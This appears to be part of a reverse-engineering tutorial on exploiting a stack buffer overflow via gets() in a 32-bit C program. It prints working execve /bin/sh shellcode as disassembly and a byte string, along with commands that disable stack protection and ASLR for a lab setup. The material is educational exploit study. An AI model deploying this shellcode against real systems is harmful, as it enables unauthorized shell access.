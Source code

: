 It is a simple program. A function **func** is called in main function. It is using the vulnerable **gets** function. So, we will use Code Injection method to exploit this program and get a shell!

There is a printf statement which prints the Address of the **buffer**. This is just to make our job easy. We will remove this printf statement later. 

The following Shellcode will be used throughout the post - in all examples.

    rev_eng_series/post_12$ objdump -Mintel -d shell32

    shell32:     file format elf32-i386


    Disassembly of section .text:

    08048060 <_start>:
    8048060:	31 c0                	xor    eax,eax
    8048062:	50                   	push   eax
    8048063:	68 2f 2f 73 68       	push   0x68732f2f
    8048068:	68 2f 62 69 6e       	push   0x6e69622f
    804806d:	89 e3                	mov    ebx,esp
    804806f:	50                   	push   eax
    8048070:	53                   	push   ebx
    8048071:	89 e1                	mov    ecx,esp
    8048073:	31 d2                	xor    edx,edx
    8048075:	b0 0b                	mov    al,0xb
    8048077:	cd 80                	int    0x80


    Shellcode: 

    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"

It is the execve shellcode we wrote. 


## Preparation

Before starting our experiment, we will disable all security features. 

1. Compile the above program in the following manner: 

        rev_eng_series/post_12$ gcc bof.c -o bof -m32 -fno-stack-protector -zexecstack

2. Disable the Address Space randomizing feature. 

        rev_eng_series/post_12# echo 0 > /proc/sys/kernel/randomize_va_space
    
    * Note that you have to be root to disable this feature.              

## Example - 1

Exploitation can be divided into 2 parts. 

1. Injecting our Shellcode in an appropriate memory location. 

2. Use the BOF and Control Flow Hijacking to jump to the memory location where Shellcode is stored. 

